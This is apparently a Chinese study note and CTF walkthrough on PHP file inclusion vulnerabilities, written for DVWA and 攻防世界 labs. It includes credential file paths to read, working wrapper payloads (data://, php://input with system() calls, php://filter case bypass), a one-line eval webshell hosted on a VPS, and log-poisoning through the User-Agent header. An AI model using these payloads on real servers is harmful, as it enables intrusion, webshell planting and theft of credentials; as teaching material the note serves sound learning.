# 1.文件包含简述

## 文件包含漏洞

开发人员出于代码灵活性的考虑，会将被包含的文件**设置为变量**，**方便进行动态调用**，从而导致用户端可能恶意调用一些恶意文件/路径，造成文件包含漏洞。

#### 常见特征：

```url
url?file = XXX
url?page = XXX.php
```


写死函数：

动态变量：




---

## 文件包含的四个相关函数

#### （1）include() 

使用此函数，代码执行到此处时将文件包含进来，发生报错（比如找不到被包含文件）只警告，还会继续执行文件中的脚本，不会停止代码的执行

！注意：include（）函数并不在意被包含的文件是什么类型，**只要有`php`代码，都会被解析出来**

#### （2）include_once()

与include()类似，区别在于，当重复调用同一文件时，程序只调用一次-》已经包含过，则不会再次被包含

#### （3）require()

与include()有区别，即找不到被包含文件，会报错，并且停止执行。

#### （4）require_once()

与require()类似，区别在于，当重复调用同一文件时，程序只调用一次

## 漏洞的形成与危害

文件包含漏洞的形成，**需要满足的两个条件：**
```
1.include()等函数通过动态变量的方式引入需要包含的文件；
2.用户能够控制/修改这个动态变量；(服务端通过GET和POST两种请求方式来传递要包含的文件即用户可控的)
```

危害:

```
1.敏感信息泄露；本地文件包含可探测到服务配置信息或者是类似password文件这样的敏感信息；
2.获取 Webshell；也可构造特殊请求写入日志，然后包含日志文件，获取权限；
3.远程文件包含漏洞危害更大，可以通过包含远程文件达到轻松的执行任意命令。
```

## 文件包含分类（两种）

1. **本地文件包含：**能够读取或执行包含本地文件的漏洞，称为本地文件包含漏洞。（允许攻击者通过浏览器包含本机上的文件。当一个Web应用程序在没有正确过滤输入数据的情况下，就有可能存在这个漏洞。）


2. **远程文件包含：**（前提）`php.ini`的配置选项`allow_url_include=On`此时文件包含函数可加载远程文件，这种漏洞被称为远程文件包含漏洞

TIPS:**利用远程文件包含漏洞，可以直接执行任意命令和获取`Webshell`**


如何区分？

```
远程：传入的内容来自网络外部或由攻击者直接构造的数据流（非目标机磁盘上本来就有的文件），在 PHP 内部都被当作 URL/外部流来处理，因此必须开启 allow_url_include = On
本地：目标指向的是目标服务器本地已经存在的文件/压缩包，不受 allow_url_include 的开关限制，默认配置（Off）下即可利用
```

---

## 常见的敏感信息

#### **Windows**

```cmd
C:\Windows\System32\drivers\etc\hosts           //查看hosts文件
C:\ProgramFiles\mysql\my.ini                            //MySQL配置
C:\ProgramFiles\mysql\data\mysql\user.MYD   //MySQL root密码
C:\windows\php.ini                                            //php 配置信息
```

#### **Linux/Unix**

```cmd
/etc/passwd                                   //账户信息
/etc/shadow                                  //账户密码文件
/usr/local/app/php5/lib/php.ini    //PHP相关配置
/etc/httpd/conf/httpd.conf           //Apache配置文件
/etc/my.conf                                  //mysql 配置文件
```

---

# 2.文件包含利用

前情提要：包含的时候，**不一定**是要去包含**`php文件`**包含的时候(像 `XX.txt、XX.jpg、XX.phps`等文件，只要是里头包含一块能执行的、完整的`php`代码，内容是可以得到执行的即可)

## 场景和利用

#### **1** .**读敏感文件**



#### **2**.**上传可控文件**





---

# 3.`php`伪协议

## 3.1 `php`伪协议



主要了解如下内容：

```
file://、http://、php://、zlib://、data://、phar://
```

## 3.2 file://协议

```url
file://[文件的绝对路径和文件名]
```

**就是：读文件的！(环境: `DVWA`平台（文件包含）)**



## 3.3 data://协议

```php
data://text/plain, ...  (...是内容，比如<?php phpinfo();?>)
```

**直接包含你输入的数据流!**



## 3.4 `php`://

```php
php:// 访问各个输入/输出流（I/O streams）
```

（可能场景）在`CTF`中用 `php://filter` 读取源码，`php://input` 执行`php`代码


```
php://input ==> 可以访问请求的原始数据的只读流
（读取你输入的数据流）
php://filter ==> 是一种元封装器， 设计用于数据流打开时的筛选过滤应用
```


#### **典型用法**

```url
?file=php://filter/read=convert.base64-encode/resource=[文件名]
（读取文件源码（针对php文件需要base64编码））
```

为什么要用到filter？：

文件包含会把php文件直接执行而非显示出来，当我们需要读取源码的时候filter非常有用


```php
URL 参数传入：?file=php://input
同时发送一个 POST 请求，并在 POST 的 Body 中直接写入 PHP 代码，例如：<?php system('ls'); ?>
```



## 3.5`phar`://

使用格式：
```url
phar://相对路径/xx.zip/被压缩的文件
```

利用步骤：

```
1. 首先将一个PHP文件添加到zip压缩文件。
2. 将zip压缩文件上传（如果上传点是白名单检测则可以将.zip后缀修改为合法的后缀）
3. 利用zip://协议包含该文件。
```

---

# 4.平台/相关赛题复现

#### DVWA平台

可以去网上找教程搭建：

https://blog.csdn.net/weixin_45677145/article/details/111054804

https://blog.csdn.net/qq_45791542/article/details/108107147

#### BugKu--Web文件包含

#### 攻防世界--Web_php_include

#### 一些必要的知识的引入

理解两个函数

（1）`strstr()`函数能做啥？

```
搜索字符串在另一字符串中是否存在（区分大小写），True则返回该字符串及剩余部分，反之False
```

（2）`str_replace()`函数能做啥？

```
替换字符串中的一些字符（区分大小写）
```



```
所以这段php代码的作用即是对php://协议的过滤。
那么？就可以考虑利用其他方式，比如data://协议；
如果确实想用php://呢？当然也可以，从上面对两个函数的分析可知，我们可利用大小写绕过这个过滤（PHP://）
```

- 方法一: data://

?page=data://text/plain, <?php system("ls"); ?>  

拿到敏感文件`fl4gisisish3r3.php`

?page=data://text/plain, <?php system("cat fl4gisisish3r3.php"); ?>



- 方法二: `php`://大小写绕过 + input [POST DATA]

?page=Php://input

<?php system("cat fl4gisisish3r3.php");?>





- 方法三: php://大小写绕过 + filter直接读敏感文件内容的base64编码

?page=PHP://filter/read=convert.base64-encode/resource=fl4gisisish3r3.php读到的内容

PD9waHAKJGZsYWc9ImN0Zns4NzZhNWZjYS05NmM2LTRjYmQtOTA3NS00NmYwYzg5NDc1ZDJ9IjsKPz4K





---

# 5.拓展

## 利用`VPS`上的木马和文件包含进行`getshell`

如果你有`VPS`，那么如果有远程文件包含可以这么利用

在`VPS`上新建一个一句话木马：<?php @eval($_POST['cmd']);?>

然后使用python开启服务：`python3 -m http.server`


#### 可以课外了解一些新方法：


```
1.Phar伪协议利用
2.Iconv字符集编码
3.利用filter过滤器和base64解析特性绕过死亡?>
4.临时文件包含（如利用SESSION文件）
5.Pearcmd利用
```


## 文件日志`getshell`：

```url
Linux日志的默认路径：
/var/log/apache/access.log
```

实操：

```php
1.抓包将木马植入数据包包头中的UA中：
<?php @eval($_POST[1]);?>
```




```url
2.访问日志
?page=/var/log/apache/access.log
3.使用蚁剑链接
```

